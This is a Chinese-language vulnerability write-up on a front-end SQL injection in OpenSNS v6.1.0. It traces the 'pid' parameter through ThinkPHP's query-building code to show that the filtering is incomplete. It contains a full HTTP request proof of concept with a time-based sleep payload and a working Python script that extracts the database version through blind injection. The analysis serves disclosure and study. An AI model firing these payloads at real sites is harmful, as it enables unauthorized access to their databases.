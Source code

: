 OpenSNS v6.1.0 前台sql注入
==========================

一、漏洞简介
------------

二、漏洞影响
------------

OpenSNS v6.1.0

三、复现过程
------------

### 漏洞分析

Addons/ChinaCity/Controller/ChinaCityController.class.php:50
发现我们输入的payload，向前查找，最开始从\$\_POST获取，如何处理，到此处

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId25.jpg)

ThinkPHP/Common/functions.php:343 跟进I函数获取到payload

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId26.jpg)

继续跟发现有参数过滤，可仔细一看跟没过滤一样

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId27.jpg)

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId28.jpg)

到这里向前追溯就结束了，从`$pid = I('pid');` 向后跟

跟进 \\Addons\\ChinaCity\\Model\\DistrictModel::\_list
`$list = D('Addons://ChinaCity/District')->_list($map);`跟进
Addons/ChinaCity/Model/DistrictModel.class.php:12

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId29.jpg)

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId30.jpg)

ThinkPHP/Library/Think/Model.class.php:618
`$resultSet = $this->db->select($options);`ThinkPHP/Library/Think/Db.class.php:772

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId31.jpg)

Db.class.php:799, Think\\Db-\>buildSelectSql() 下的 `$this->parseSQl`
ThinkPHP/Library/Think/Db.class.php:799

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId32.jpg)

ThinkPHP/Library/Think/Db.class.php:804
发现执行了2个其他的sql语句，在此处（`buildSelectSql 里->return $sql`）下断点可以看到sql语句

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId33.jpg)

ThinkPHP/Library/Think/Db.class.php:813

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId34.jpg)

ThinkPHP/Library/Think/Db.class.php:821
`$this->parseWhere(!empty($options['where'])?$options['where']:''),`

ThinkPHP/Library/Think/Db.class.php:423

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId35.jpg)

跟到

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId36.jpg)

ThinkPHP/Library/Think/Db.class.php:457

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId37.jpg)

ThinkPHP/Library/Think/Db.class.php:468

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId38.jpg)

ThinkPHP/Library/Think/Db.class.php:457

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId39.jpg)

ThinkPHP/Library/Think/Db.class.php:497

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId40.jpg)

虽然这个地方有转译，但只有\$val\[1\]

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId41.jpg)

ThinkPHP/Library/Think/Db.class.php:464

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId42.jpg)

ThinkPHP/Library/Think/Db.class.php:813

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId43.jpg)

ThinkPHP/Library/Think/Db.class.php:773
`$result = $this->query($sql,$this->parseBind(!empty($options['bind'])?$options['bind']:array()));`

执行成功 sleep了

    Db.class.php:469, Think\Db->parseWhereItem()
    Db.class.php:457, Think\Db->parseWhere()
    Db.class.php:821, Think\Db->parseSql()
    Db.class.php:799, Think\Db->buildSelectSql()
    Db.class.php:772, Think\Db->select()
    Model.class.php:618, Think\Model->select()
    DistrictModel.class.php:12, Addons\ChinaCity\Model\DistrictModel->_list()
    ChinaCityController.class.php:58, Addons\ChinaCity\Controller\ChinaCityController->getCity()
    AddonsController.class.php:42, Home\Controller\AddonsController->execute()
    App.class.php:153, ReflectionMethod->invokeArgs()
    App.class.php:153, Think\App::exec()
    App.class.php:193, Think\App::run()
    Think.class.php:121, Think\Think::start()
    ThinkPHP.php:96, require()
    index.php:73, {main}()

### 漏洞复现

#### vul url

> [http://0-sec.org/uploads\_download\_2019-07-16\_5d2d5d4697d88/index.php?s=/home/addons/\_addons/china\_city/\_controller/china\_city/\_action/getcity.html](https://www.t00ls.net/)

#### poc

    POST /index.php?s=%2Fhome%2Faddons%2F_addons%2Fchina_city%2F_controller%2Fchina_city%2F_action%2Fgetcity.html HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
    Content-Length: 116
    Accept: */*
    Cookie: 
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Origin: http://192.168.95.131
    Referer: http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/ucenter/config/index.html
    X-Requested-With: XMLHttpRequest
    Accept-Encoding: gzip

    cid=0&pid%5B0%5D=%3D%28select%2Afrom%28select%2Bsleep%283%29union%2F%2A%2A%2Fselect%2B1%29a%29and+3+in+&pid%5B1%5D=3

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId48.jpg)

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId49.jpg)

Vulnerability file

Addons/ChinaCity/Controller/ChinaCityController.class.php:50

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId50.jpg)

ThinkPHP/Library/Think/Db.class.php:772

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId51.jpg)

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId52.jpg)

#### exp

    import requests
    from requests import exceptions

    url="http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"


    header={'X-Requested-With':'XMLHttpRequest'}
    # proxies={'http':'127.0.0.1:8080'}
    flag=''
    for i in range(1,50):
        for j in range(32,128):
            try:
                data={
                    'cid':0,
                    'pid[0]':"=(select if(ord(substr((select version()),{},1))={},sleep(10),0))AND 3 IN  ".format(i,j),
                    'pid[1]':3
                }
                # print data['pid[0]']
                r=requests.post(url,data=data,headers=header,timeout=5)

            except exceptions.Timeout :
                flag+=chr(j)
                print flag

![](./resource/OpenSNSv6.1.0前台sql注入/media/rId54.jpg)

参考链接
--------

> <https://www.t00ls.net/thread-54688-1-1.html>
